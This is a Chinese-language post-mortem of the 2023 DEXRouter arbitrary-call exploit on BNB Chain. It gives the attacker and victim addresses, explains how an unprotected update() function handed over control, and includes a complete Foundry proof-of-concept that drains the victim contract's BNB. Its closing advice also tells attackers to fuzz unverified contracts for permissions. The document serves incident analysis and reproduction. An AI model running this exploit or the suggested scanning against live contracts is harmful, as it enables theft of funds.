



# DEXRouter@arbitrary-call

- 时间：2023-09-29 08:49:19 (UTC)
- 损失金额：20 BNB（$4,337.20）
- twitter：https://twitter.com/DecurityHQ/status/1707851321909428688


## 交易 

- 黑客EOA地址：[0x09039e2082a0a815908e68bd52b86f96573768e8](https://bscscan.com/address/0x09039e2082a0a815908e68bd52b86f96573768e8)
- 黑客用来攻击的合约地址：[0x0F41f9146dE354e5Ac6Bb3996e2E319Dc8a3Bb7f](https://bscscan.com/address/0x0f41f9146de354e5ac6bb3996e2e319dc8a3bb7f)

- 攻击事件hash：[0xf77c5904da98d3d4a6e651d0846d35545ef5ca0b969132ae81a9c63e1efc2113](https://bscscan.com/tx/0xf77c5904da98d3d4a6e651d0846d35545ef5ca0b969132ae81a9c63e1efc2113)

- 被攻击合约的地址：[0x1f7cF218B46e613D1BA54CaC11dC1b5368d94fb7](https://bscscan.com/address/0x1f7cf218b46e613d1ba54cac11dc1b5368d94fb7#code)

## 资金流向



## 攻击过程

攻击过程非常简单，就调用了`update()`和`functionCallWithValue()`



## 攻击详细分析

此次攻击中使得slot 1、2、3、4、发生了变化，很明显是`update()`导致的。成功调用`update()`会使得这几个storage值发生变化，攻击者将其修改为攻击合约地址，为后续调用`functionCallWithValue()`做准备。



有了权限之后，直接调用`functionCallWithValue()`即可获利，这个函数指定调用某个合约的某个方法，然后会发送以太。攻击者可以随意写一个函数返回true，然后设置好发送的以太即可。

其实这个攻击非常简单，就是获取权限，然后用权限调用关键方法进行获利。这个被攻击的合约没有开源，没开源就认为自己的合约很安全（不知道为啥我在多个网站都无法反编译这个合约的runtimecoee）。其实，这一类的攻击思路很简单，并且也经常发生，攻击思路主要是：找为开源的合约（一般都不咋安全），然后fuzz看看能不能获取到权限，如果获取到权限则调用获利函数。

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC/tree/master)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {
    // Victim unverified contract. Name "DEXRouter" taken from parameter name in "go" function in attack contract
    IDEXRouter private constant DEXRouter =
        IDEXRouter(0x1f7cF218B46e613D1BA54CaC11dC1b5368d94fb7);

    function setUp() public {
        vm.createSelectFork("bsc", 32161325);
        vm.label(address(DEXRouter), "DEXRouter");
    }

    function testExploit() public {
        deal(address(this), 0 ether);
        emit log_named_decimal_uint(
            "Attacker BNB balance before exploit",
            address(this).balance,
            18
        );
        // DEXRouter will call back to function with selector "0xe44a73b7". Look at fallback function
        DEXRouter.update(
            address(this),
            address(this),
            address(this),
            address(this)
        );

        // Arbitrary external call vulnerability here. DEXRouter will call back "a" payable function and next transfer BNB to this contract
        DEXRouter.functionCallWithValue(
            address(this),
            abi.encodePacked(this.a.selector),
            address(DEXRouter).balance
        );

        emit log_named_decimal_uint(
            "Attacker BNB balance after exploit",
            address(this).balance,
            18
        );
    }

    function a() external payable returns (bool) {
        return true;
    }

    fallback(bytes calldata data) external payable returns (bytes memory) {
        if (bytes4(data) == bytes4(0xe44a73b7)) {
            return abi.encode(true);
        }
    }
}
```

## 建议

- 防守者：不要认为为开源就安全，黑客还是很牛的
- 攻击者：扫未开源的合约，fuzz看看能不能获取权限，或者可以做随意的call调用


